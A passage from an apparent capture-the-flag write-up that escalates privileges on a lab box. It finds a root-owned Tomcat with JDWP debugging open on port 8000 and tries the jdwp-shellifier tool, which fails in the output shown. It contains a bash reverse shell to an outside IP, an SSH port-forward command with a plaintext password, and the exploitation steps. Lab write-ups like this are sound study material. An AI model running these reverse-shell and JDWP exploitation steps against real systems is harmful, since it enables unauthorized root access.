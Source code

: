```
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:58072           0.0.0.0:*                           -                   
udp6       0      0 :::5353                 :::*                                -                   
udp6       0      0 :::42345                :::*                                -    
```

- `3306` is database
  - `8000` and `8080` is `tomcat` running as `root`
```
alexa@AI:~$ ps auxww
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root          1  0.0  0.4 225172  8740 ?        Ss   Oct25   0:06 /sbin/init auto automatic-ubiquity noprompt
...
root      55849  0.0  0.0      0     0 ?        I    15:09   0:00 [kworker/0:1-eve]
root      56126  3.2  5.1 3108796 102548 ?      Sl   15:18   0:03 /usr/bin/java -Djava.util.logging.config.file=/opt/apache-tomcat-9.0.27/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n -Dignore.endorsed.dirs= -classpath /opt/apache-tomcat-9.0.27/bin/bootstrap.jar:/opt/apache-tomcat-9.0.27/bin/tomcat-juli.jar -Dcatalina.base=/opt/apache-tomcat-9.0.27 -Dcatalina.home=/opt/apache-tomcat-9.0.27 -Djava.io.tmpdir=/opt/apache-tomcat-9.0.27/temp org.apache.catalina.startup.Bootstrap start
```

- `-agentlib:jdwp=transport=dt_socket,address=localhost:8000` option indicates that `debug` mode is enabled and on port `8000`
  - We can configure port forwarding
    - `sshpass -p 'H,Sq9t6}a<)?q93_' ssh alexa@10.10.10.163 -L 8000:localhost:8000`
  - We can use [jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
    - https://book.hacktricks.xyz/network-services-pentesting/pentesting-jdwp-java-debug-wire-protocol
  - First I create `rev.sh` on target box
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.3/6666 0>&1
```

- Then we execute [jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
  - But it my case it didn't work
```
└─$ python2.7 ./jdwp-shellifier.py -t 127.0.0.1 -p 8000 --cmd '/tmp/rev.sh'
[+] Targeting '127.0.0.1:8000'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=aa0
[+] Found Runtime.getRuntime(): id=7fea50023ae0
[+] Created break event id=2
[+] Waiting for an event on 'java.net.ServerSocket.accept'
[-] Exception: unpack requires a string argument of length 11
```
